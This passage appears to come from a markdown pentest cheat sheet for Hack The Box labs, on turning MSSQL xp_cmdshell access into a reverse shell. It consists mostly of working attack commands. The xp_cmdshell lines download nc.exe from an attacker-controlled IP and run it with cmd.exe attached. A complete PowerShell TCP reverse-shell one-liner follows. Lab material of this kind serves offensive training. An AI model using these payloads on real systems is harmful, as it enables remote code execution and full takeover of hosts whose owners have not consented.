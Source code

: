 ```sql

SQL>
```
![xp_cmdshell](xp_cmdshell.png)

### Reverse shell

#### with netcat (recomended)
First obtain a copy of netcar for windows in case of using Kali/Parrot you can do it by executing:
```shell
cp /usr/share/windows-binaries/nc.exe .
```
Or you can download it from the official Kali [repository](https://gitlab.com/kalilinux/packages/windows-binaries).

Then we will start an http server.

with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```

Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://YOUR IP/nc.exe -OutFile %temp%/nc.exe"
```
```sql
xp_cmdshell "%temp%/nc.exe -nv YOUR IP 443 -e cmd.exe"
```
#### with powershell script
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:
![Reverse Shell](reverse_shell.png)
Then we will start an http server.

